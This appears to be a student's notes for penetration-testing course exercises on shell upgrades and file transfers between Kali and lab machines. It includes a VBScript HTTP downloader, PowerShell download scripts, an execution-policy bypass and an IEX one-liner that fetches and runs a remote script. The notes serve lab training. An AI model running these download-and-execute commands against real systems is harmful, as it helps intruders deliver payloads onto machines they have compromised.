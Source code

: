 # 16.1.4 Considerations and Preparations
**1.  Start the Pure-FTPd FTP server on your Kali system, connect to it using the FTP client on the Debian lab VM, and observe how the interactive prompt works.**

The following script will create the necessary users and gorups as well as start the FTP service
```bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```


![[systemctl_ftpd.png]]

We can now switch to our Debian client and attempt to connect.
![[frp_connect.png]]


**2.  Attempt to log in to the FTP server from a Netcat reverse shell and see what happens.**

After setting up our listener on the Debian client we can use netcat to connect to our listener. We then use the command "ftp" to attempt to interact with our FTP server running on our Kali machine. This will result in a loss of control of our shell.
![[non-interactive_ftp.png]]

**3.  Research alternative methods to upgrade a non-interactive shell.**

To upgrade our shell we can use the python module "pty" , a standard module that is often used to upgrade to interactive shells. We can see that after upgrading our shell via "pty" we can access the ftp server running on our Kali machine.
![[interactive_ftp.png]]


# 16.2.6 Transferring Files with Windows Hosts

**1.  Use VBScript to transfer files in a non-interactive shell from Kali to Windows.**

We must first write a vbs script which will act like a simple http downloader.
```vbs
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1)
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1
Const HTTPREQUEST_PROXYSETTING_PROXY = 2
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts
 Err.Clear
 Set http = Nothing
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")
 http.Open "GET", strURL, False
 http.Send
 varByteArray = http.ResponseBody
 Set http = Nothing
 Set fs = CreateObject("Scripting.FileSystemObject")
 Set ts = fs.CreateTextFile(StrFile, True)
 strData = ""
 strBuffer = ""
 For lngCounter = 0 to UBound(varByteArray)
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))
 Next
 ts.Close
```

We can then run the script with cscript and download files from our Kali machine's server.
![[Pasted image 20220720022641.png]]

**2.  Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.**

For more recent versions of Windows a much better approach is to utilize PowerShell. We start by screating the script with the following code.
```
$webclient = New-Object System.Net.WebClient 
$url = "http://192.168.119.130:9002/evil.txt" 
$file = "new-exploit.txt" 
$webclient.DownloadFile($url,$file) 
```

This creates the wget.ps1 script. In order to run the script we must first enable the execution of PowerShell scripts. We can do this with the following command, including a few extra flags to set a few other options.
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
And we can see our file has downloaded.
![[Pasted image 20220720024112.png]]

This script can be run in a number of ways. For example, a one liner version:

`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.130/evil.txt', 'new-evil.txt')`

Or as a one liner, executing the requested payload remotely rather than saving and execute the file locally.
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')`

**3.  For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-6) was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.**


**4.  Use TFTP to transfer files from a non-interactive shell from Kali to Windows.**

**Note:** If you encounter problems, first attempt the transfer process within an interactive shell and watch for issues that may cause problems in a non-interactive shell.